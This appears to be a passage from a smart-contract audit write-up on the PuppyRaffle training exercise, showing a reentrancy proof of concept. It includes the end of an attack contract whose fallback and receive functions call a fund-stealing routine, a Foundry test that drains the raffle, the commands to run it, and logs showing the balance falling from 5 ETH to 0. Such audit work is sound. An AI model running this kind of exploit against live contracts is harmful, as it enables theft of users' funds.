 ``` solidity
    fallback() external payable {
        _stealFunds();
    }

    receive() external payable {
        _stealFunds();
    }
}

function testReentrancyRefund() public playerEntered {
        address[] memory players = new address[](4);
        players[0] = makeAddr("playerOne-1");
        players[1] = makeAddr("playerTwo-2");
        players[2] = makeAddr("playerThree-3");
        players[3] = makeAddr("playerFour-4");
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttack attackContract = new ReentrancyAttack(address(puppyRaffle));
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 initialBalance = address(attackContract).balance;
        uint256 initialPuppyBalance = address(puppyRaffle).balance;

        vm.prank(attacker);
        attackContract.attack{value: entranceFee}();

        console.log("Initial attacker balance:", initialBalance);
        console.log("Initial PuppyRaffle balance:", initialPuppyBalance);

        console.log("Attacker balance after attack:", address(attackContract).balance);
        console.log("PuppyRaffle balance after attack:", address(puppyRaffle).balance);
    }
```
#### Steps to run the test

1. Install packages and Compile project:

```bash
make 
```

1. Run the test:

```bash
forge test --mt testReentrancyRefund -vvv
```

Console output:

```
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testReentrancyRefund() (gas: 727346)
Logs:
  Initial attacker balance: 0 ETH
  Initial PuppyRaffle balance: 5 ETH
  Attacker balance after attack: 6 ETH
  PuppyRaffle balance after attack: 0 ETH
```
